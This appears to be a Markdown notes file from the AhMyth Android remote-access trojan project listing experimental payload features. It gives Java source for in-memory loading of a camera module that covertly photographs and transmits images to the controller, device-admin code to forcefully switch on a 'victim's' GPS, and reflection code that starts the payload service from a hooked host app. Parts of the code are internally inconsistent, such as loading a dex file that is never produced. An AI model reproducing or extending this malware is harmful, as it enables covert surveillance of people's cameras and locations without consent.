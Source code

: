 # <div align="center">Experminetal Features</div>

A file used to store code for experimental client and server features that could be released with future releases if they prove successful.

<br>

<details>
  <summary>Experimental Client Features</summary>

#
## <div align="center">Dynamic "In-Memory at Runtime" Camera Class Generation & Loading</div>

<div align="center">An experimental feature inspired by the Android equivalent of Metasploit Framework's Meterpreter Payload.</div>
<br>

<details>
  <summary>Code</summary>
<br>

- ClassGen.java
> Responsible for Generating and Loading the "CameraManager.java" Class at runtime completely in-memory.
```java
package ahmyth.mine.king.ahmyth;

import com.squareup.javapoet.*;
import org.apache.commons.vfs2.*;
import org.apache.commons.vfs2.provider.ram.RamFileProvider;
import javax.tools.JavaCompiler;
import javax.tools.ToolProvider;
import java.io.OutputStream;
import java.lang.reflect.Method;
import dalvik.system.DexClassLoader;

public class ClassGen {
    public static void main(String[] args) {
        try {
            // Create an in-memory file system manager with RamFileProvider
            FileSystemManager fsManager = VFS.getManager();
            fsManager.addProvider("ram", new RamFileProvider());

            // Define the path to the in-memory Java source file
            String javaFilePath = "ram:///CameraManager.java";

            String camTempSourceCode = CamTemp.CAMERA_SOURCE_CODE;

            // Create an in-memory file for the Java source code
            FileObject javaFile = fsManager.resolveFile(javaFilePath);
            
            // Write the generated Java source code to the in-memory file
            try (OutputStream os = javaFile.getContent().getOutputStream()) {
                os.write(camTempSourceCode.getBytes());
            }

            // Define the path to the in-memory .dex file
            String dexPath = "ram:///CameraManager.dex";

            // Create an in-memory file for the compiled .dex
            FileObject dexFile = fsManager.resolveFile(dexPath);

            TypeSpec generatedClass = TypeSpec.classBuilder("CameraManager") // Change the class name here
                    .addCode(camTempSourceCode)
                    .build();

            JavaFile javaFileObj = JavaFile.builder("ahmyth.mine.king.ahmyth", generatedClass)
                    .build();

            String javaCode = javaFileObj.toString();

            JavaCompiler compiler = ToolProvider.getSystemJavaCompiler();
            int compilationResult = compiler.run(null, null, null, javaFilePath); // Compile the in-memory Java source file

            if (compilationResult == 0) {
                System.out.println("Compilation succeeded.");
            } else {
                System.err.println("Compilation failed.");
                System.exit(compilationResult);
            }

            // Load the compiled .dex from in-memory
            ClassLoader classLoader = new DexClassLoader(
                    dexFile.getURL().toString(),
                    null,
                    null,
                    ClassLoader.getSystemClassLoader()
            );

            executeDynamicallyGeneratedClass(classLoader);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void executeDynamicallyGeneratedClass(ClassLoader classLoader) throws Exception {
        Class<?> generatedClass = classLoader.loadClass("ahmyth.mine.king.ahmyth.CameraManager"); // Change the class name here
        Object generatedInstance = generatedClass.getDeclaredConstructor().newInstance();
    }
}
```
<br>

- CamTemp.java
> "CameraManger" Template file required for class file generation.
```java
package ahmyth.mine.king.ahmyth;

public class CamTemp {
    public static final String CAMERA_SOURCE_CODE =
            "package ahmyth.mine.king.ahmyth;\n" +
            "import android.content.Context;\n" +
            "import android.content.pm.PackageManager;\n" +
            "import android.graphics.Bitmap;\n" +
            "import android.graphics.BitmapFactory;\n" +
            "import android.graphics.SurfaceTexture;\n" +
            "import android.hardware.Camera;\n" +
            "import android.hardware.Camera.PictureCallback;\n" +
            "import android.hardware.Camera.Parameters;\n" +
            "import org.json.JSONArray;\n" +
            "import org.json.JSONException;\n" +
            "import org.json.JSONObject;\n" +
            "import java.io.ByteArrayOutputStream;\n" +
            "public class CameraManager {\n" +
            "    private Context context;\n" +
            "    private Camera camera;\n" +
            "    public CameraManager(Context context) {\n" +
            "        this.context = context;\n" +
            "    }\n" +
            "    public void startUp(int cameraID) {\n" +
            "        camera = Camera.open(cameraID);\n" +
            "        Parameters parameters = camera.getParameters();\n" +
            "        camera.setParameters(parameters);\n" +
            "        try {\n" +
            "            camera.setPreviewTexture(new SurfaceTexture(0));\n" +
            "            camera.startPreview();\n" +
            "        } catch (Exception e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        camera.takePicture(null, null, new PictureCallback() {\n" +
            "            @Override\n" +
            "            public void onPictureTaken(byte[] data, Camera camera) {\n" +
            "                releaseCamera();\n" +
            "                sendPhoto(data);\n" +
            "            }\n" +
            "        });\n" +
            "    }\n" +
            "    private void sendPhoto(byte[] data) {\n" +
            "        try {\n" +
            "            Bitmap bitmap = BitmapFactory.decodeByteArray(data, 0, data.length);\n" +
            "            ByteArrayOutputStream bos = new ByteArrayOutputStream();\n" +
            "            bitmap.compress(Bitmap.CompressFormat.JPEG, 20, bos);\n" +
            "            JSONObject object = new JSONObject();\n" +
            "            object.put(\"image\", true);\n" +
            "            object.put(\"buffer\", bos.toByteArray());\n" +
            "            IOSocket.getInstance().getIoSocket().emit(\"x0000ca\", object);\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "    }\n" +
            "    private void releaseCamera() {\n" +
            "        if (camera != null) {\n" +
            "            camera.stopPreview();\n" +
            "            camera.release();\n" +
            "            camera = null;\n" +
            "        }\n" +
            "    }\n" +
            "    public JSONObject findCameraList() {\n" +
            "        if (!context.getPackageManager().hasSystemFeature(PackageManager.FEATURE_CAMERA)) {\n" +
            "            return null;\n" +
            "        }\n" +
            "        try {\n" +
            "            JSONObject cameras = new JSONObject();\n" +
            "            JSONArray list = new JSONArray();\n" +
            "            cameras.put(\"camList\", true);\n" +
            "            int numberOfCameras = Camera.getNumberOfCameras();\n" +
            "            for (int i = 0; i < numberOfCameras; i++) {\n" +
            "                Camera.CameraInfo info = new Camera.CameraInfo();\n" +
            "                Camera.getCameraInfo(i, info);\n" +
            "                JSONObject jo = new JSONObject();\n" +
            "                jo.put(\"id\", i);\n" +
            "                if (info.facing == Camera.CameraInfo.CAMERA_FACING_FRONT) {\n" +
            "                    jo.put(\"name\", \"Front\");\n" +
            "                } else if (info.facing == Camera.CameraInfo.CAMERA_FACING_BACK) {\n" +
            "                    jo.put(\"name\", \"Back\");\n" +
            "                } else {\n" +
            "                    jo.put(\"name\", \"Other\");\n" +
            "                }\n" +
            "                list.put(jo);\n" +
            "            }\n" +
            "            cameras.put(\"list\", list);\n" +
            "            return cameras;\n" +
            "        } catch (JSONException e) {\n" +
            "            e.printStackTrace();\n" +
            "        }\n" +
            "        return null;\n" +
            "    }\n" +
            "}\n" +
            "}";
}
```

</details>

<details>
  <summary>Explanation</summary>
  <br>

The provided code in the dropdown tab below this one, performs all of the following operations listed below, dynamically in memory, meaning that nothing gets written to disk (aka the Android fileSystem)
  
  <br>

## <div align="center"><ins>Generation Phase</div></ins>
1. **In memory:** Creates an in-memory file system manager with the *RamFileProvider*.
2. **In memory:** Defines the path to the in-memory Java source file `("ram:///CameraManager.java")`.
3. **In memory:** Retrieves the source code for the `"CameraManager"` class from `"CamTemp.CAMERA_SOURCE_CODE."`
4. **In memory:** Creates an in-memory file to store the Java source code.
5. **In memory:** Writes the generated Java source code to the in-memory file.

## <div align="center"><ins>Loading Phase</div></ins>
6. **In memory:** Defines the path to the in-memory *.dex* file `("ram:///CameraManager.dex")`.
7. **In memory:** Creates an in-memory file to store the compiled *.dex* file.
8. **In memory:** Defines the structure and content of the `"CameraManager"` class using *JavaPoet*.
9. **In memory:** Converts the JavaPoet representation of the class to a string.
10. **In memory:** Compiles the in-memory Java source code into a .dex file using the *Java Compiler*.
11. **In memory:** Checks the compilation result, and if successful, prints "Compilation succeeded."
12. **In memory:** Loads the compiled .dex file into memory using a *DexClassLoader*.
13. **In memory:** Attempts to create an instance of the dynamically generated `"CameraManager"` class in memory.

**Reiteration:**

In both the Generation and Loading Phases, most actions are performed in memory. The code dynamically generates, compiles, and loads the `"CameraManager"` class along with its source code and compiled *.dex* file, all within the program's memory space. The only actions not performed in memory are related to the file system, where it writes the generated Java source code and reads the compiled *.dex* file.

</details>
<br>

## <div align="center">Device Admin Privileges</div>

This will hopefully give the AhMyth Payload Administrator Privileges for future features.

<details>
  <summary>Code</summary>
  <br>

- DeviceAdmin.java
```java
package ahmyth.mine.king.ahmyth;

import android.app.admin.DeviceAdminReceiver;

import android.app.admin.DevicePolicyManager;

import android.content.ComponentName;

import android.content.Context;

public class DeviceAdmin extends DeviceAdminReceiver {

    static DevicePolicyManager getDPM(Context context) {

        return (DevicePolicyManager)context.getSystemService(Context.DEVICE_POLICY_SERVICE);

    }

    public static ComponentName getComponentName(Context context) {

        return new ComponentName(context.getApplicationContext(), DeviceAdmin.class);

    }

}
```
</details>
<br>
  
## <div align="center">Automatically Enable Victim GPS</div>

This will hopefully allow automatic enabling of the victim device's GPS, Device Administration Privileges are required for this to work, hence the need for the **DeviceAdmin.java** code above.

<details>
  <summary>Code</summary>
  <br>
  
- LocationManager.java
```java
    private void activateGps(Context context) {

        SharedPreferences prefs = PreferenceManager.getDefaultSharedPreferences(context);

        if (!prefs.getBoolean("allow_location_modechange", false))

            return;

        if (!DeviceAdmin.getDPM(context).isAdminActive(DeviceAdmin.getComponentName(context)))

            return;

        if (!DeviceAdmin.getDPM(context).isDeviceOwnerApp(context.getApplicationContext().getPackageName()))

            return;

        DeviceAdmin.getDPM(context).setSecureSetting(

                DeviceAdmin.getComponentName(context),

                Settings.Secure.LOCATION_MODE,

                Integer.toString(Settings.Secure.LOCATION_MODE_HIGH_ACCURACY)

        );

        Log.d("Done", "Forcefully enabled GPS");

    }

    private void getLocation(Context context) throws SecurityException {

        activateGps(context);

        LocationManager locationManager = (LocationManager) context.getApplicationContext().getSystemService(Context.LOCATION_SERVICE);

        locationManager.requestSingleUpdate(LocationManager.GPS_PROVIDER, null);

    }
```
<br>

- Settings.java
```java
        perms.put("allow_location", new String[]{

                Manifest.permission.ACCESS_FINE_LOCATION,

        });

        perms.put("allow_location_modechange", new String[]{

                Manifest.permission.BIND_DEVICE_ADMIN,

        });
```

</details>
<br>

## <div align="center">Find context in Main App or Activity Classes using reflection</div>

This will hopefully allow the static smali hook to start the AhMyth Payload's main serivce if its in a main acitivity or main application class

<details>
  <summary>Code</summary>
  <br>

  ```java
private static void findAndStartService() {
    boolean success = findContext(); // Try the application variant first
    
    // If the application variant fails, try the activity variant
    if (!success) {
        findContextFromActivity();
    }
}

private static boolean findContextFromActivity() {
    try {
        Class<?> activityThreadClass = Class.forName("android.app.ActivityThread");
        final Method currentActivityThread = activityThreadClass.getMethod("currentActivityThread");
        final Object activityThread = currentActivityThread.invoke(null);
        
        final Method currentActivity = activityThreadClass.getMethod("currentActivity");
        final Activity currentActivityInstance = (Activity) currentActivity.invoke(activityThread);

        if (currentActivityInstance == null) {
            final Handler handler = new Handler(Looper.getMainLooper());
            handler.post(new Runnable() {
                public void run() {
                    try {
                        Activity activity = (Activity) currentActivity.invoke(activityThread);
                        if (activity != null) {
                            startService(activity);
                        }
                    } catch (Exception ignored) {
                    }
                }
            });
        } else {
            startService(currentActivityInstance);
        }        
        return true; // Success
    } catch (Exception e) {
        // Handle the exception
        return false; // Failure
    }
}

private static boolean findContext() {
    try {
        Class<?> activityThreadClass = Class.forName("android.app.ActivityThread");
        final Method currentApplication = activityThreadClass.getMethod("currentApplication");
        final Context context = (Context) currentApplication.invoke(null);
        if (context == null) {
            final Handler handler = new Handler(Looper.getMainLooper());
            handler.post(new Runnable() {
                public void run() {
                    try {
                        Context context = (Context) currentApplication.invoke(null);
                        if (context != null) {
                            startService(context);
                        }
                    } catch (Exception ignored) {
                        // Handle the exception
                    }
                }
            });
            return false; // Failure
        } else {
            startService(context);
            return true; // Success
        }
    } catch (Exception e) {
        // Handle the exception
        return false; // Failure
    }
}

private static void startService(Context context) {
    // Implement your service start logic here
    // You can use the 'context' parameter to start the service
}
```

</details>
<br>

<details>
  <summary>Explanation</summary>

null
</details>

</details>

#

<details>
  <summary>Experminetal Server Features</summary>

### Nothing to show.

</details>
